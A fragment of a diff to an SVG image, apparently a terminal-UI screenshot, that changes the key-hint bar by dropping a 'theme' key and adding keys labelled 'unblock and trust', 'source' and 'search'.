-   <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
-   <text x="566.4" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">explain</text>
-   <text x="642.0" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
-   <text x="658.8" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
-   <text x="717.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
-   <text x="734.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
+   <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">T</text>
+   <text x="297.6" y="367.5" fill="#6b7c8c" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock and trust</text>
+   <text x="457.2" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
+   <text x="474.0" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
+   <text x="541.2" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
+   <text x="558.0" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
+   <text x="625.2" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">…</text>
+   <text x="650.4" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
+   <text x="667.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">explain</text>
+   <text x="742.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
+   <text x="759.6" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
